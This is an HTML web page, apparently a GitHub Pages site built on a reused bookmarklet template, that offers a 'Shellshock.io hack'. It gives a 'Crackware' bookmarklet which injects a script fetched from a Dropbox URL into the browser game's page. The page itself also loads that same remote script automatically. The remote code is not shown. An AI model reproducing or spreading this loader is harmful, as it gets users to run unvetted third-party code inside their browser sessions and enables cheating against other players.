 <html lang="en"><head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">

<!-- Begin Jekyll SEO tag v2.3.0 -->
<title>Shellshock.io hack</title>
<meta property="og:title" content="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:locale" content="en_US">
<link rel="canonical" href="https://dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:url" content="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:site_name" content="shellshockhack">
<script type="application/ld+json">
{"name":"animatedThumbnailsBookmarklet","description":null,"author":null,"@type":"WebSite","url":"https://worldlanguages.github.io/animatedThumbnailsBookmarklet/","image":null,"publisher":null,"headline":"animatedThumbnailsBookmarklet","dateModified":null,"datePublished":null,"sameAs":null,"mainEntityOfPage":null,"@context":"http://schema.org"}</script>
<!-- End Jekyll SEO tag -->

    <style class="anchorjs"></style><link href="/animatedThumbnailsBookmarklet/assets/css/style.css?v=2bda4bc6dfc0cfbb6a1bdd45071b3149f0485179" rel="stylesheet">
  </head>
  <body>
    <div class="container-lg px-3 my-5 markdown-body">
      

      <h1 id="animatedthumbnailsbookmarklet">Shellshock.io hack</h1><h3 id="drag-and-drop-the-link-below-to-your-bookmarks-bar">Drag and drop the link below to your bookmarks/favorites bar. If you don't see the bar, press Ctrl+Shift+B (Windows) or Cmd+Shift+B (Mac).<a class="anchorjs-link " href="#drag-and-drop-the-link-below-to-your-bookmarks-bar" aria-label="Anchor link for: drag and drop the link below to your bookmarks bar" data-anchorjs-icon="" style="font-style: normal; font-variant: normal; font-weight: normal; font-stretch: normal; font-size: 1em; line-height: 1; font-family: anchorjs-icons; padding-left: 0.375em;"></a></h3>
<h3><a href='javascript:x=document.createElement("script");x.src="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js"; void document.getElementsByTagName("head")[0].appendChild(x);'>Crackware</a></h3><h3>Then click while loading shellshock.io</h3></div>
    <script src="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js"></script>
    <script>anchors.add();</script>
  





</body></html>
